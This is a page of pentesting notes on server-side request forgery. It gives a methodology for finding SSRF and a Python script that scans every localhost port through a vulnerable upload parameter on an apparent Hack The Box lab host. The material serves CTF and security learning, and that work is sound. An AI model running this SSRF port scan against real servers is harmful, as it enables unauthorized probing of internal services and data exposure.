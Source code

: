 ```yaml
---
description: Server Side Request Reforgery
icon: raygun
---
```


# SSRF

{% hint style="info" %}
### <mark style="color:red;">`Methodology`</mark>

1. <mark style="color:purple;">Watch for any unexpected redirects, especially to internal or private</mark> <mark style="color:orange;">**`IP`**</mark><mark style="color:purple;">. These can often indicate a vulnerable</mark> <mark style="color:orange;">**`SSRF`**</mark> <mark style="color:purple;">endpoint.</mark>
2. <mark style="color:purple;">Use a listener to see if the server is initiating outbound connections. This helps confirm if the server is making requests to external resources.</mark>
3. <mark style="color:purple;">Pay special attention to which ports are open on the</mark> <mark style="color:orange;">**`localhost`**</mark><mark style="color:purple;">, as they might indicate internal services that can be targeted.</mark>
4. <mark style="color:purple;">If you discover that there are open ports on internal services, try querying them via the vulnerable parameter. This could reveal sensitive information, such as metadata, headers, or responses that were not intended to be exposed.</mark>
5. <mark style="color:purple;">If the</mark> <mark style="color:orange;">**`SSRF`**</mark> <mark style="color:purple;">vulnerability exposes endpoints, like internal</mark> <mark style="color:orange;">**`API`**</mark><mark style="color:purple;">, try querying those endpoints from the vulnerable parameter.</mark>&#x20;
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:red;">`Port Scanner`</mark>

* <mark style="color:purple;">Use this script to enumerate open ports on the</mark> <mark style="color:orange;">**`localhost`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```python
#!/usr/bin/python3
import requests

with open("a", 'wb') as f:
    f.write(b'')

for port in range(1, 65535):
    with open("a", 'rb') as file:
        data_post = {"bookurl": f"http://127.0.0.1:{port}"}   # Vulnerable Parameter
        data_file = {"bookfile": file}    # Mandatory Parameter
    try:
        r = requests.post("http://editorial.htb/upload-cover", files=data_file, data=data_post) # Vunerable URL
        if not r.text.strip().endswith('.jpeg'):     # Filtering response
            print(f"{port} --- {r.text}")
    except requests.RequestException as e:
        print(f"Error on port {port}: {e}")
```
{% endcode %}

* <mark style="color:purple;">Modify the parameters for your use case.</mark>
{% endhint %}
